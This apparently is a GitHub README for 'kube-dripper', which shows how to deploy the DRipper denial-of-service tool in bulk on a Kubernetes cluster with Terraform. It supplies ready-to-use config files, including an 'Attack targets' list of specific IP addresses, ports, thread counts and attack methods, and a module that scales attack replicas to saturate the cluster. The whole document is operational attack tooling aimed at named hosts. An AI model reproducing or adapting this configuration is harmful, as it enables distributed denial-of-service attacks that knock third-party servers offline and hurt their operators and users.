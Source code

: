 # kube-dripper
DRipper batch deploy on Kubernetes via Terraform

## how to use it

I'm assuming you already have a Kubernetes cluster running somewhere, if not - get one!

You need to create a `provider.tf`:
```terraform
provider "kubernetes" {
  config_path = "~/.kube/config"
}
```

Copy [variables.tf](variables.tf) to your folder.

Create `terraform.tfvars`:
```terraform
######################################################################################################
# Kubernetes
######################################################################################################
vcpus_per_node = 4
memory_per_node = 16
node_pool_size = 5

######################################################################################################
# Attack targets
######################################################################################################
attack_hosts = [
  "217.12.104.100,80,100,http",
  "92.38.145.145,80,100,http",
  "92.38.145.145,443,100,http",
  "92.38.145.145,444,100,http"
]
```

Then create `main.tf` with the following content:
```terraform
module "ripper_deployment" {
  source = "./modules/v1_deployment"
  for_each = toset(var.attack_hosts)

  deployment_name = "${split(",", each.value)[0]}-deployment"

  ripper_attack_host = split(",", each.value)[0]
  ripper_attack_port = split(",", each.value)[1]
  thread_count       = split(",", each.value)[2]
  attack_method      = split(",", each.value)[3]

  number_of_replicas = (var.vcpus_per_node / 0.5 * var.node_pool_size) / length(var.attack_hosts)
}
```

`attack_hosts` is a list of comma-separated values: `<host>,<port>,<thread_count>,<attack_type>`, for instance:
```terraform
attack_hosts = [
  "217.12.104.100,80,100,http",
  "92.38.145.145,80,100,http",
  "92.38.145.145,443,100,http",
  "92.38.145.145,444,100,http"
]
```
